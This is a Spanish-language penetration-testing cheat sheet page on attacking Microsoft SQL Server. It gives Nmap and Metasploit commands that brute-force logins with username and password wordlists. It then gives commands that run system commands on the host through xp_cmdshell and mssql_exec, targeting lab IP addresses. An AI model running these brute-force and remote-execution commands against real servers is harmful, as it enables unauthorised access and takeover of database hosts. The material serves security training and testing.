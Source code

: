 # MsSQL

## Fuerza Bruta

### Nmap

Podemos hacer uso de Nmap para hacerle fuerza bruta a este servicio:

```bash
nmap -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Metasploit

Para hacer fuerza bruta usaremos los siguientes modulos:

<pre class="language-perl"><code class="lang-perl"><strong>msfconsole
</strong><strong>
</strong><strong>use auxiliary/scanner/mssql/mssql_login
</strong>
set RHOSTS 192.168.1.1

set USER_FILE /root/Desktop/wordlist/common_users.txt

set PASS_FILE /root/Desktop/wordlist/100-common-passwords.txt

set VERBOSE false

exploit
</code></pre>

<figure><img src="../../.gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

## RCE

### Nmap

Podemos hacer un RCE si tenemos credenciales de acceso y los permisos necesarios. Usaremos un script de nmap para ello:

{% hint style="success" %}
Podemos hacer uso del comando "type" para leer archivos de la maquina
{% endhint %}

```bash
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=usuario,mssql.password=contraseña,ms-sql-xp-cmdshell.cmd="whoami" 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

### Metasploit

Otra de las opciones es hacer el RCE mediante este modulo de metasploit:

```perl
msfconsole

use auxiliary/admin/mssql/mssql_exec

set RHOSTS 10.0.20.101

set CMD whoami

exploit
```

<figure><img src="../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>
